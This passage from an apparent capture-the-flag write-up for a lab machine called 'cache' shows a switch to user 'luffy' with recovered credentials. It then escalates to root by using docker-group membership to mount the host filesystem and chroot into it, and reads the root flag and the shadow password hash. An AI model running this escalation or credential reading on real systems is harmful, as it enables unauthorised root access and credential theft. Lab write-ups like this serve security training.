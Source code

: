 Now we can use the creds: `luffy` / `0n3_p1ec3`.

```
$ su luffy
su luffy
Password: 0n3_p1ec3

luffy@cache:/$ cd
cd
luffy@cache:~$
```

### Privilege Escalation of Machine : luffy to root

We can see there is docker running and the user is in docker group.

```
$ id
uid=1001(luffy) gid=1001(luffy) groups=1001(luffy),999(docker)
$ ps -ef f | grep docker
ps -ef f | grep docker
root       918     1  0 22:39 ?        Ssl    0:05 /usr/bin/dockerd -H fd://
root      1358   918  0 22:39 ?        Ssl    0:04  \_ containerd --config /var/run/docker/containerd/containerd.toml --log-level info
root      6934  1358  0 23:45 ?        Sl     0:00      \_ containerd-shim -namespace moby -workdir /var/lib/docker/containerd/daemon/io.containerd.runtime.v1.linux/moby/f211bc4cffb910b8c45b09d9eeec6c9483af4fff6222a5ca7c211aef6ca3bc94 -address /var/run/docker/containerd/containerd.sock -containerd-binary /usr/bin/containerd -runtime-root /var/run/docker/runtime-runc
```

Being in docker group is like being root because of the capabilities.

My reflex is to check [GTFOBins][gtfo] if there are some ready to use payloads
for EoP, and [there is](https://gtfobins.github.io/gtfobins/docker/#shell<>).

Let's find what images are available:

```
$ docker images
docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
ubuntu              latest              2ca708c1c9cc        10 months ago       64.2MB
```

So let's spawn a shell through a shared volume:

```
luffy@cache:~$ docker run -v /:/mnt --rm -it ubuntu chroot /mnt bash
docker run -v /:/mnt --rm -it ubuntu chroot /mnt bash
root@ae6411b77a1e:/# cd
cd
root@ae6411b77a1e:~# cat root.txt
cat root.txt
44f998eb5112e763883b6ae36279a432
root@ae6411b77a1e:~# cat /etc/shadow | grep root
cat /etc/shadow | grep root
root:$6$bWa.Lbnz$k0KbMyNbdOQRcY5pWuHM2bfkF5ek8c0CTNsi00qFHmp04NqcefCsIXZTdJgqToRar5zcEk5k8KFhbIomGB3Kb/:18178:0:99999:7:::
```

[ht]:https://inventory.rawsec.ml/resources.html#Hack%20Tricks
[nmap]:https://inventory.rawsec.ml/tools.html#Nmap
[gtfo]:https://inventory.rawsec.ml/resources.html#GTFOBins
[ffuf]:https://inventory.raw.pm/tools.html#ffuf
